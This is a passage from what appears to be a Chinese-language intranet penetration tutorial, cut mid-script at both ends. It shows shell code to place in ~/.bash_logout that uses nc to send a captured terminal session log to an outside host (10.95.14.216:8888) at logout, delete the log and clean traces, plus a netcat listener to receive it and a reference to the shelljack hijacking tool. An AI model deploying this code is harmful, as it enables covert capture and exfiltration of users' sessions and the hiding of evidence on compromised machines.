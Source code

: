 then

\#kill -9 \$(ps -ef \| grep "shelljack \\-n 10.95.14.216 \$num" \| awk '{print
\$2}' \| tail -n 1) 2\>&1 \>& /dev/null

echo 1 \>& /dev/null

break

else

continue

fi

done

fi

用户登出时外发记录文件及痕迹清理:

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/e1581fa6becf5a53d7a5139ccbf46b23.png)

监听接收文件:

nc -lvp 8888 \> local.log

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/7122dc15413d3b5fd375775c88aa5bf0.png)

![](https://raw.githubusercontent.com/Scotoma8/CyberSecurity/master/Intranet_Penetration/media/d9fbe144a34a10b01acb5f774d438f2c.png)

实战阶段\~/.bash_logout:

\#将以下内容放到\~/.bash_logout文件中

\#(nc 10.95.14.216 8888 \< /root/local.\$\$.log &) && rm -f /root/local.\$\$.log

num=8888

((nc 10.95.14.216 \$num \< /root/local.\$\$.log 2\>&1 \| grep refused \>
tmp\$\$) &) && echo 1 \>& /dev/null

output=\$(cat tmp\$\$)

if [[ \$output = "" ]]

then

pid=\$(ps -ef \| grep "nc 10.95.14.216 \$num" \| awk '{print \$2}' \| head -n 1)

kill -9 \$pid

rm -f tmp\$\$

(nc 10.95.14.216 \$num \< /root/local.\$\$.log &) && rm -f /root/local.\$\$.log

else

while true;

do

num=\$[\$num+1]
